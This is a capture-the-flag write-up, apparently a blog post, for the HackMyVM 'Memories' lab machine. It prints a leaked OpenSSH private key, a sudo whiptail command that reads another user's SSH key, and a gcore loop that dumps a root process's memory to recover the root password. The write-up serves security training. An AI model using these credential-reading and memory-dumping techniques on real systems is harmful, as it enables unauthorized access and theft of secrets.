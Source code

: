 ```yaml
---
layout: post
author: kohaku
title:  "Memories"
date:   2022-01-01 10:28:30 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Memories)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 16:40:37 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.203
Nmap scan report for 192.168.0.203
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 d3:66:a3:0a:23:d3:46:e1:e6:6c:ff:ef:2d:0d:ad:7c (RSA)
|   256 93:35:93:8f:6b:7b:1f:11:ce:3a:db:09:15:a5:e1:ac (ECDSA)
|_  256 36:4e:cb:29:6d:64:19:49:15:47:d0:68:d4:0f:c6:a5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 16:40:44 2021 -- 1 IP address (1 host up) scanned in 7.61 seconds
{% endhighlight  %}

# Port 80

We can see a default apache page

## Fuzzing

{% highlight text  %}
/robots.txt           (Status: 200) [Size: 11]
{% endhighlight  %}

On robots.txt we can see another directory `/memories`  

![Untitled](/images/memories/loginPage.png)

I tried to found the creds, but i don’t find anything

But we can bypass this login 

{% highlight bash  %}
curl -X POST "192.168.0.203/memories/index.html"
{% endhighlight  %}

{% highlight text  %}
#Laura private key
laura
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA2W+WidI/grDh9S7BHggHhYFtusWhcArliwIzfEUbjxI+YSMxaCpR
PmPQHVy9dMWW0Joml9ShJiH8m2STT4vH36vyWpgBmZRAgm3lnfc/CzOzI+onbJ8IkfQiG0
RAnGowyax9qB1JYz07lYqlEsnYA39M98yLNtYZnO7cbAFp6vOz82LCQFm3JoOENmkQQlzG
kx0tI9sDtDHgAughL+Gig23nEFcJVYZlms1vwFbTBV3QafbxSmstIdgr4CfODM/tKjTPMD
dTqFEf5CEi+3cFiNBRr4FVfsb2otaOwzZ5mSgzsZ/WvuGZ1lnrrSb61J5aH6/3w/3/5TEK
BCtMDc5fSwAAA8he+yvgXvsr4AAAAAdzc2gtcnNhAAABAQDZb5aJ0j+CsOH1LsEeCAeFgW
26xaFwCuWLAjN8RRuPEj5hIzFoKlE+Y9AdXL10xZbQmiaX1KEmIfybZJNPi8ffq/JamAGZ
lECCbeWd9z8LM7Mj6idsnwiR9CIbRECcajDJrH2oHUljPTuViqUSydgDf0z3zIs21hmc7t
xsAWnq87PzYsJAWbcmg4Q2aRBCXMaTHS0j2wO0MeAC6CEv4aKDbecQVwlVhmWazW/AVtMF
XdBp9vFKay0h2CvgJ84Mz+0qNM8wN1OoUR/kISL7dwWI0FGvgVV+xvai1o7DNnmZKDOxn9
a+4ZnWWeutJvrUnlofr/fD/f/lMQoEK0wNzl9LAAAAAwEAAQAAAQAMm4PHCgHUuhzf8o4Q
B7cn7pFGOx9ZN8iHfuEtW3R1n0EusLO0rn93dqIikbYKh0pvXgDO3O1bIK1c9T/1ZM16Eq
ZCyn2NQiNbbLPbrPJi2+SPOIyAp9f/XoB7xEFa0G1zxCSlEs2mi25hBWD87ecwjLkRxTJt
Q4zIpLDzMkHJ9awYwCkweO2Oq3ia4L01nSXEAnhNfC074LT/mvvmOWebB37i0WHXn2iLMO
ab2yF4GWZcsVaU3DC08ZQHEOn/98xEV/22SLhlqxzK/XPk2XK/e2Egdg3qM3s9QDvzv1Qj
WSp+MVnbezr+e6qPwLmDHAtLY34U6fMDndcautebRNDBAAAAgEtUAUhMxTiu2c0wASGDrC
+/kcLSJhUg8p96546I20cMsmJiYZUH/hFITe4mzhehrYx74XJu9UePpvf7nePAFcHpKZki
Uf2p86G1/zQf4ti0a5h6Udbyon9d7Z6gq38loJoeYbyqCoBAO93ZgdxzbGZd0sLiSEeSNa
98kUV8oYPCAAAAgQD6dbOG9CnC8Y4Bl2J8/1JFWLh9YoZfQd5G+NsJrGiMlQjBgtPemsdQ
11Z0l6VSQhPMtQFbvHhpYwzFDNQbfRbkZgenQ8JDL5lEkZ7T8bkhtakZwMOIM9ewyN92eU
MiIFaBPKZ9PXxSYcnQcW2iGa8xwlIO0wg4kNDPARSmrBOZ1wAAAIEA3j7hORliNXJUafDa
6iSzgbBoKy1bdyvc+GlyLYdtYAHblglzwy8TJUu4nIXQZzb4MrlKhG32s4AfaXoRVc2Uo7
RCk0pW+N3Nyao0xod+3DeGCD8ZiEpNON4K9HM6fY6PA1ecpbXepR3h9LzZmSVFfyxngw2F
rrO2R16UEDh4v60AAAAObGF1cmFAbWVtb3JpZXMBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight  %}

# User

Connect to laura using the private key

{% highlight bash  %}
sudo -l

User laura may run the following commands on memories:
    (lucy) NOPASSWD: /usr/bin/whiptail
{% endhighlight  %}

Getting Lucy private key

{% highlight bash  %}
sudo -u lucy  whiptail --textbox --scrolltext /home/lucy/.ssh/id_rsa 0 0
{% endhighlight  %}

Copy and change the chmod to 600

# Root

On Lucy user, run:

{% highlight bash  %}
sudo -l

User lucy may run the following commands on memories:
    (ALL : ALL) NOPASSWD: /usr/bin/gcore
{% endhighlight  %}

With gcore binary we can generate a core file for a running process

Using the pspy64 program: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

Run this binary and watch the process 

{% highlight bash  %}
#This is a interesting one
2021/12/30 17:45:01 CMD: UID=0    PID=11885  | /bin/sh -c /root/memories
{% endhighlight  %}

This process is schedule to be execute every minute through crontab

We can create a script to wait until the process execute and grep it

{% highlight bash  %}
while true; do i=$(ps -ef | grep /root/memories |grep -v grep | awk -F " " '{print $2}'); sudo gcore $i -o $(date); done
{% endhighlight  %}

This script grep the name of the process and the pid, after that calls the gcore with the right pid

Run strings against the files 

{% highlight bash  %}
strings core.* | grep password
My password is whataboutyourthinking
{% endhighlight  %}

root:whataboutyourthinking